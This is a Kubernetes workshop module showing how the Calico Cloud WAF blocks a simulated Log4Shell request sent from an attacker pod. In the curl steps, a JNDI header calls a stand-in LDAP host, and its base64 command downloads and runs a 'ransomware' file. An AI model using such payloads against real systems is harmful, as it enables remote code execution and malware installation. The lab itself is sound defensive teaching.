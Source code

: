 Configuring the Workload-Centric WAF
==============

A web application firewall (WAF) safeguards web applications against a range of application layer attacks, including cross-site scripting (XSS), SQL injection, and cookie poisoning. Given that application attacks are the primary cause of breaches, protecting the HTTP traffic that serves as a gateway to valuable application data is crucial.

## Step 1 - Set up the WAF

Calico Cloud WAF allows you to selectively run service traffic within your cluster and protect intra-cluster traffic from common HTTP-layer attacks. To increase protection, you can use Calico Cloud network policies to enforce security controls on selected pods on the host.

1. Deploy the WAF by running the following command:

   ```bash
   kubectl apply -f waf
   ```

2. Remove the ```quarantine``` label from the attacker pod

   ``` bash
   kubectl label pod attacker quarantine-
   ```

3. Execute the bash inside the pod attack in way you can interact with its shell prompt:

   ```kubectl exec attacker -it -- /bin/bash ```

   If you no longer have the attacker pod:

   ```kubectl run attacker --image nicolaka/netshoot -it --rm -- /bin/bash```  

4. Before protecting the service with the WAF, try the following command from the attacker shell. This request will simulate a LOG4J attack.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```

You should get a response like this:

``` html
> GET / HTTP/1.1
> Host: vote.vote
> User-Agent: curl/8.0.1
> Accept: */*
> X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}
> 
< HTTP/1.1 200 OK
< server: envoy
< date: Mon, 08 Jan 2024 23:25:22 GMT
< content-type: text/html; charset=utf-8
< content-length: 1294
< set-cookie: voter_id=9b62d5409a1658a; Path=/
< x-envoy-upstream-service-time: 9
< 
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>Cats vs Dogs!</title>
    <base href="/index.html">
    <meta name = "viewport" content = "width=device-width, initial-scale = 1.0">
    <meta name="keywords" content="docker-compose, docker, stack">
    <meta name="author" content="Tutum dev team">
    <link rel='stylesheet' href="/static/stylesheets/style.css" />
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/font-awesome/4.4.0/css/font-awesome.min.css">
  </head>
  <body>
    <div id="content-container">
      <div id="content-container-center">
        <h3>Cats vs Dogs!</h3>
        <form id="choice" name='form' method="POST" action="/">
          <button id="a" type="submit" name="vote" class="a" value="a">Cats</button>
          <button id="b" type="submit" name="vote" class="b" value="b">Dogs</button>
        </form>
        <div id="tip">
          (Tip: you can change your vote)
        </div>
        <div id="hostname">
          Processed by container ID vote-69dc45b49c-7htfc
        </div>
      </div>
    </div>
    <script src="http://code.jquery.com/jquery-latest.min.js" type="text/javascript"></script>
    <script src="//cdnjs.cloudflare.com/ajax/libs/jquery-cookie/1.4.1/jquery.cookie.js"></script>

    
  </body>
</html>* Connection #0 to host vote.vote left intact
```


5. Now enable the WAF using the following command from your shell (not from the pod attacker).

   ```bash
   kubectl patch applicationlayer tigera-secure --type='merge' -p '{"spec":{"webApplicationFirewall":"Enabled"}}'
   ```

6. Go back to the attack pod, and repeat the request.

   ```bash
   curl -v -H \
   'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
   'vote.vote'
   ```

   You will note that the result will be an HTTP 403 - Forbidden. This reponse returns from the WAF.

   ``` html
   > GET / HTTP/1.1
   > Host: vote.vote
   > User-Agent: curl/8.0.1
   > Accept: */*
   > X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}
   > 
   < HTTP/1.1 403 Forbidden
   < date: Mon, 08 Jan 2024 23:27:03 GMT
   < server: envoy
   < content-length: 0
   < 
   * Connection #0 to host vote.vote left intact
   ```

---

[:arrow_right: Container Security and Calico Security Events](/mod/module-4-security-events.md)         <br>

[:arrow_left: Egress Gateway and Azure Firewall](/mod/module-6-egress-gateway-azure-firewall.md)   <br>
[:leftwards_arrow_with_hook: Back to Main](/README.md)  